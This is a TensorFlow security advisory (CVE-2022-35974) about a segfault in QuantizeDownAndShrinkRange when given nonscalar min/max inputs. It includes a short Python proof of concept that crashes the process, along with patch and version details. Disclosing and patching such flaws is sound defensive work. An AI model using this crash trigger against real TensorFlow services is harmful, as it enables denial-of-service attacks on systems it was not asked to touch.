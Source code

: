 ## TFSA-2022-108: Segfault in `QuantizeDownAndShrinkRange`

### CVE Number
CVE-2022-35974

### Impact
If `QuantizeDownAndShrinkRange` is given nonscalar inputs for `input_min` or `input_max`, it results in a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

out_type = tf.quint8
input = tf.constant([1], shape=[3], dtype=tf.qint32)
input_min = tf.constant([], shape=[0], dtype=tf.float32)
input_max = tf.constant(-256, shape=[1], dtype=tf.float32)
tf.raw_ops.QuantizeDownAndShrinkRange(input=input, input_min=input_min, input_max=input_max, out_type=out_type)
```

### Patches
We have patched the issue in GitHub commit [73ad1815ebcfeb7c051f9c2f7ab5024380ca8613](https://github.com/tensorflow/tensorflow/commit/73ad1815ebcfeb7c051f9c2f7ab5024380ca8613).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
